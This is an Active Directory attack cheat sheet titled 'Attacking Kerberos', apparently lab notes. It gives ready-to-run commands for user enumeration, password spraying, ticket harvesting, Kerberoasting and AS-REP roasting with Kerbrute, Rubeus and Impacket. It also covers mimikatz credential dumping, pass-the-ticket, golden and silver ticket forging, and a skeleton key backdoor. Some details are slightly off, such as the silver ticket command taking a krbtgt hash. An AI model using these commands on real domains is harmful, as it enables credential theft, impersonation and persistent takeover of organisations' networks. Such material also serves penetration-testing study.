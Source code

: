# Attacking Kerberos 

## Enumeration w/ Kerbrute
> Use  --downgrade to get a crackable format for hashcat
```shell
./kerbrute userenum --dc CONTROLLER.local -d CONTROLLER.local User.txt --downgrade
```

## Harvesting Tickets w/ Rubeus
This command tells Rubeus to harvest for TGTs every 30 seconds
```shell
Rubeus.exe harvest /interval:30
```
## Password-Spraying w/ Rubeus
```shell
Rubeus.exe brute /password:Password1 /noticket
```
## Kerberoasting w/ Rubeus & Impacket (Local Admin Required)
It helps to crack the hash and use it with Mimikatz to create tickets.
```shell
Rubeus.exe kerberoast
```
```shell
impacket-GetUserSPNs  -dc-ip MACHINE_IP domain.local/Machine1:Password1           # Check SPNs accosiated with this machine/user.
impacket-GetUserSPNs  -dc-ip MACHINE_IP domain.local/Machine1:Password1 -request # Does a kerberoast attack
```
## AS-REP Roasting w/ Rubeus & Impacket
```shell
# check ASREPRoast for all users in current domain
.\Rubeus.exe asreproast  /format:<AS_REP_responses_format [hashcat | john]> /outfile:<output_hashes_file>```
```
```shell
# check ASREPRoast for all domain users (credentials required)
python GetNPUsers.py <domain_name>/<domain_user>:<domain_user_password> -request -format <AS_REP_responses_format [hashcat | john]> -outputfile <output_AS_REP_responses_file>

# check ASREPRoast for a list of users (no credentials required)
python GetNPUsers.py <domain_name>/ -usersfile <users_file> -format <AS_REP_responses_format [hashcat | john]> -outputfile <output_AS_REP_responses_file>
```
## Pass the Ticket w/ mimikatz
```shell
mimikatz.exe
privilege::debug           #Ensure this outputs [output '20' OK] (You need admin privileges)
sekurlsa::tickets /export  #This will export all of the .kirbi tickets into the directory that you are currently in.
kerberos::ptt <ticket>     #This will cache and impersonate the given ticket.
klist                      #Here were just verifying that we successfully impersonated the ticket by listing our cached tickets.
```
## Golden/Silver Ticket Attacks w/ mimikatz
Dump the krbtgt hash
```shell
mimikatz.exe
privilege::debug
lsadump::lsa /inject /name:SQLService
```
You need to change `/name:` value to the domain account/service you want.

### Create a Silver Ticket
```shell
Kerberos::golden /user:Administrator /domain:controller.local /sid:<SID> /krbtgt:<NTLM hash> /id:1103
```
### Create a Golden Ticket
```shell
Kerberos::golden /user:Administrator /domain:controller.local /sid:<SID> /krbtgt:<NTLM hash> /id:500
```
`misc::cmd` - this will open a new elevated command prompt with the given ticket in mimikatz.

`sid:` -> The sid of the service account.

`krbtgt` -> Put a service NTLM hash here.

`id` -> Put 500 to create golden tickets, change it to 1103 for silver tickets.

## Kerberos Backdoors w/ mimikatz (Skeleton Key)
```shell
mimikatz.exe
privilege::debug
misc::skeleton
```
